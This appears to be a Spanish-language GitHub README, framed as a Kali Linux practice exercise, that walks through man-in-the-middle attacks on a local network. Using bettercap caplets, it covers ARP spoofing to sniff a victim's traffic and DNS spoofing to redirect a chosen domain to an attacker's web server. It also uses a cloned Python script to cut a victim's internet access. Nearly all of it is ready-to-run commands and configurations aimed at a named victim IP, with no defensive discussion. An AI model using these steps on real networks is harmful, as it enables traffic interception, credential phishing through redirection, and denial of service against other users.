 [^Esta práctica ha sido realizada entera en Kali Linux]
# 🥷​MIM-Spoofing
## 🕵️‍♂️Configuración para esnifar el tráfico de la red haciendo Spoofing
En primer lugar, instalaremos el paquete bettercap, esta es la herramienta que vamos a usar para realizar este ataque.
```sh
sudo apt install bettercap
```
Y clonaremos el repositorio
```sh
git clone https://github.com/Dv-AlejandroEH/MIM-Spoofing.git
```
Una vez tengamos estos dos requisitos podemos empezar con el ataque.
Tenemos que modificar el archivo spoof.cap para indicar la IP de la victima.
```
net.probe on
set arp.spoof.fullduplex true
set arp.spoof.targets [192.168.0.*] --> Esta es la IP que hay que cambiar
arp.spoof on
set net.sniff.local true
net.sniff on
```
Ya podremos ejecutar el siguiente comando
```sh
bettercap -iface eth0 -caplet spoof.cap
```
En este punto ya estamos viendo todo el tráfico de la red local

## 🔄​Configuración para DNS-Spoofing
En primer lugar, debemos de descargar apache para montar nuestro propio servidor HTTP:
```sh
sudo apt install apache2
```
Una vez instalado agregamos un index.html al directorio /var/www/html, esta página será a la que redigiremos a la victima.
Ejecutaremos el siguiente comando para levantar el servidor web.
```sh
sudo systemctl start apache2
```
En el repositorio que hemos clonado anteriormente, se incluia un archivo llamado spoof-dns.cap, deberemos de modificarlo para añadir los targets, los nombres DNS que queremos suplantar y la dirección IP a la que queremos redirigir a la víctima.
```
set arp.spoof targets [192.168.0.10] --> IP de la victima
arp.spoof on
set dns.spoof.domains [youtube.com] --> Dominio el cual queremos suplantar
set dns.spoof.address [192.168.0.12] --> Dirección IP a la que será dirigida la víctima (puede ser nuestro servidor web u otra IP ya existente en internet)
dns.spoof on
```
Cuando hayamos modificado este archivo podremos ejecutar el siguiente comando.
```sh
sudo bettercap -iface eth0 -caplet spoof-dns.cap
```
La víctima ya estará siendo atacada, cuando acceda a la dirección que le hemos indicado será redirigida a nuestra página.

## ❌​Configuración para denegar internet a la victima mediante Spoofing
Para comenzar, clonaremos el siguiente repositorio.
```sh
git clone https://github.com/Maalfer/PinguExit.git
```
Una vez clonado ejecutaremos el comando.
```sh
sudo arp-scan -I eth0 --localnet
```
Ya podremos ejecutar el script de python que hemos clonado del repositotio
```sh
sudo python3 script.py
```
En la interfaz gráfica que nos ha aparecido introduciremos la IP a la que deseamos realizar el ataque y este se realizará automaticamente dejando a la víctima sin conexión a internet.

